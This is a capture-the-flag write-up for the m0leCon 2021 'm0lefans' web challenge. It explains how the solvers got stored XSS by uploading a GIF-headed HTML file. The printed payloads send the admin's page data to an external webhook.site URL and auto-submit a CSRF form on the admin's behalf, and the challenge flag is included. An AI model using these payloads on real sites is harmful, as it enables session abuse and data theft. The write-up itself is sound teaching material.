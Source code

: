 # m0leCon 2021 CTF Teaser - m0lefans

## Challenge

I was concerned my friends would find my private page, so I created my own clone where you can only follow people who give you their profile's link!

[Go](https://m0lecon.fans/), post photos of your private ventilator without fear!


### Metadata

- Tags: `web`
- Author: *Alberto247*, *Xato*
- Points: 149
- Solves: 32

## Solution

From the description it was unclear what was the goal of the challenge, however the `Report a post to the admin` button gave it away. Somehow we have to run JS in the browser of the admin and steal something.

After registering a user it, we saw that the `HttpOnly` is present on the cookies, therefore it is unaccessible from JavaScript. At this point our guess was to somehow view the posts of the administrator.

The first step was to find an XSS vulnerability on the website, we tried everything and could not pop an alert. After several trials and tons of shit posts. We realized the check on the image upload validates the magic bytes. We created a file containing

```
GIF89a
<html>
<script>alert(1)</script>
</html>
```

Then uploaded it viewed the source and realized that the images are uploaded in a `.htm` file. We opened the link and the alert popped.

```html
// Part of the source code responsible for loading the image.
<div class="row image" style="background-image: url(https://m0lecon.fans/static/media/posts/190ccb58-7e01-4550-b411-64cb1b2633a7.htm)"></div>
```

![alert](alert.png)

We got it we can run JS code in the browser of the Administrator the next step was to find the subdomain of the administrator. Luckily the `https://m0lecon.fans/feed/report` has a button (`Profile`), which goes to the account settings, and the page is on the same domain where we can run JS code. Therefore we need to fetch the site and extract the subdomain, then send it to our webhook.

We opened a webhook on `webhook.site` crafted the payload uploaded it to the site then sent it to the admin. The payload was the following:

```html
GIF89a
<html>
<script>
fetch("https://m0lecon.fans/feed/report").then(data => data.text()).then(data=>{fetch("https://webhook.site/b4a87d53-9573-4cfc-a296-f61155266214?url=" + data.match(/https:\/\/(.*?)\/profile/)[0])})
</script>
</html>
```

Then a new request popped up on our webhook.

![hook](webhook.png)

From this request we learned that the subdomain of the admin was `y0urmuchb3l0v3d4dm1n`.

We opened the page of the admin and followed him (`Follow for free`), the last step was to accept our request. We tested how it worked with two test accounts.

We tried to accept the follow request with fetch but it did not work out. In the end we used the following payload to accept the request.

```html
GIF89a
<html>
<body>
<form class="" id="accepter" action="https://y0urmuchb3l0v3d4dm1n.m0lecon.fans/profile/request" method="post">
    <input type="hidden" name="id" value="7">
    <input type="submit" value="Accept" class="btn btn-light py-2 ml-3">
</form>
</body>
<script>
document.getElementById("accepter").submit()
</script>
</html>
```

We send the link to the admin, then opened up the profile of the admin and the flag awaited us.

![flag](flag.png)

The flag is `ptm{m4k3_CSP_r3ports_gr3a7_4gain!}`.